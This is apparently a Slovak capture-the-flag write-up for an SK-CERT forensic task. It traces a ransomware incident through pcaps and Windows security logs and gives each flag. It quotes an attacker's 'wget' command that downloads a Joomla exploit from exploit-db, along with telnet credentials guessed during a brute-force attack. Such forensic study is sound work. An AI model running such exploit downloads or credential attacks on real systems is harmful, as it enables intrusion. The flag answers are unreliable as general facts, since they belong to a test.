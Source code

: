 # SK-CERT - DÁTOVÁ ANALÝZA
> Ozvala sa nám spoločnosť, ktorá dostala hlásenie že majú infikovaný počítač ransomvérom. Ten je špecifický tým že posiela vygenerovaný privátny klúč na útočníkov server. Prikladáme vám pcap: https://drive.google.com/file/d/13arhVaKNFD_g2qCjuDBrECmpN6MKd4Rw/view?usp=sharing <br/>
Reported Difficulty: 1

:exclamation: *Súbory a zadania z tejto súťaže môžete stiahnuť z https://ulozto.net/file/9qLDe5asaCHJ/*

## 1 Kontrola
> Z dodaného PCAP súboru je potrebné zistiť či naozaj je spoločnosť infikovaná, a pokiaľ áno, tak je potrebné zistiť o aký privátny klúč sa odosiela. Vlajka je IP adresa serveru na ktorý sa klúč odoslal.

> Body: 3

Otvorime `part1.pcap` vo Wireshark a pustime sa do analyzi. Musim uznat ze som to isiel skratkou a skusal rozne IPecky z komunikacie kym som nenatrafil na tu pravu: `194.182.66.53`

```
flag: 194.182.66.53
```

## 2 Windows?
> Zdrojová IP počítača ktorý odosielal privátny klúč, patrí lokálnemu počítaču s windows. Je potrebné zistiť ako prenikli do tohto systému. Prikladáme bezpečnostný log v XML formáte.
https://drive.google.com/file/d/1pmJNCfgnpTCMewCaRioqagYj0_VLcold/view?usp=sharing
Vlajka je dátum a čas prvého prieniku (Formát Y-m-d H:i:s)

> Body: 3

V tomto kroku mame securty log v xml, otvorime ho v LibreOffice Calc a pozrieme sa na rozne eventy co tam mame. Zo poctu roznych logov vidime vysoky vyskit 4625 co je Failed Login.

![](images/2022-03-06-12-36-54.png)

Ked si vyfiltrujeme vsetky 4625 eventy vidime ze vsetky maju FailureReason `%%2313` co je `Unknown user name or bad password. (529)`, targetuser je `victim` a zdrojom je `LinuxServerWebServer`. Vyzera to na bruteforce login ktory, ako predpokladame ze bol bol enty point, nas flag by mal byt prvy successfull login attempt po poslednom failed:

![](images/2022-03-06-12-55-59.png)

```
flag: 2022-02-22 20:40:08
```

## 3 Ktorý proces?
> Po bruteforce útoku a prihlásení, útočník spustil malvér. Je potrebné zistiť meno procesu. Vlajka je meno procesu (Formát: meno_procesu.format)

> Body: 3

V LibreOffice vyfiltrujeme vsetky eventy s ProcessName a NewProcessName a hladame nieco podozrive po case prveho successfull loginu utocnika a o chvilku to mame:

![](images/2022-03-06-13-10-07.png)

```
flag: YouWillCryRansomware3000.exe
```

## 4 Otvorený test
> Kompromitovaný LinuxServerWebServer je náše testovacie prostredie, aplikácie na serveri sú dostupné iba z lokálnej siete, ale telnet server je otvorený do sveta. Prikladáme Pcap s potrebnými dátami. https://drive.google.com/file/d/1y3pOvG9PDGf7Sg7HtgOGvfjpk6qlVYor/view?usp=sharing
Vlajka je EpochTime prieniku do systému (bez milisekúnd).

> Body: 3

Po otvoreni `web.pcap` suboru, poobzerame sa trosku okolo a uvidime ze sa niekdo snazi prihlasit cez telnet session:

![](images/2022-03-06-15-43-26.png)

Skusime hladat "Login" v paketoch s cielom najst prvy success login, a po niekolko desiatok klikoch narazame na "Last Login" message ktora sa objavuje po uspesnom prihlaseni sa.

![](images/2022-03-06-15-48-16.png)

Pre istotu pojdeme este zopar paketov vyssie aby sme sa uistili ze to bol utocnik ktory uhadol login a heslo. Po prezreti zopar desiatok paketov predtym vidime ze utocnik uhadol login `bob` a heslo `adminbob` a paket cislo `6262` mozeme povazovat ako okamih preiniku do systemu ktory ma EpochTime (bez milisekund)

![](images/2022-03-06-15-53-52.png)

```
flag: 1645560004
```

## 5 Stará joomla
> Z logov sme zistili že útočník vyhackoval aj našu joomlu na testovacom serveri. Z posledného PCAP súboru je potrebné zistiť aký exploit útočník použil.
Vlajka je url odkial útočník exploit stiahol (Formát: www.stránka_exploitu.doména/cesta_k_exploitu)

> Body: 3

Pri pozerani zopar dalsich paketov, vidime ze utocnik prve co spravil je `wget https://www.exploit-db.com/download/47465`, rychly nahlad do toho url nam potvrdzuje ze ide o Joomla expoit.

![](images/2022-03-06-16-16-09.png)

```
flag: www.exploit-db.com/download/47465
```



